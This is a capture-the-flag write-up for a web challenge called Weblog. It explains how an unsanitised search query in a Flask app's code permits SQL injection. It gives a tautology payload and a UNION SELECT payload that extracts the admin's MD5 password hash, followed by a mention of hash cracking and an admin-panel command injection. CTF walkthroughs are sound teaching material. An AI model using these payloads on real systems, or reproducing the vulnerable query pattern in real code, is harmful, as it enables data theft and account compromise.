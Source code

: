 # Challenge Statement 
![image](https://github.com/user-attachments/assets/c7254cd6-7b17-458a-873c-465a0cf760a6)

Attachment: [Weblog.zip](https://github.com/harishkannan05/SnykCTF-2024-Writeup/blob/main/Attachments/Weblog.zip)

# Solution
After analyzing the source code, we find that there are multiple vulnerabilities. 
1) SQL Injection in the search functionality.
2) MD5 hashing
3) Command Injection in Admin Panel

**SQL Injection**
```
raw_query = text(
                f"SELECT * FROM blog_posts WHERE title LIKE '%{query}%'")
            current_app.logger.info(f"Executing Raw Query: {raw_query}")
            posts = db.session.execute(raw_query).fetchall()
            current_app.logger.info(f"Query Results: {posts}")
```

Because user input `query` is directly appended to the SQL query without proper sanitization, this vulnerability can be exploited to extract data from the database.
A simple ` ' OR 1-1 # ` does the trick. 

We can extract data from the `users` table using: 
``` ' UNION SELECT id, username, password, 'content', 'author' FROM users WHERE role='admin' # ```

This gives us the md5 hash of the admin password, which we can crack using hashcat.

Now, we can log into the admin panel and find the flag, courtesy of the command injection vulnerability. 
![image](https://github.com/user-attachments/assets/5938603c-94c9-4ea2-8b1f-c5f460c4bf39)
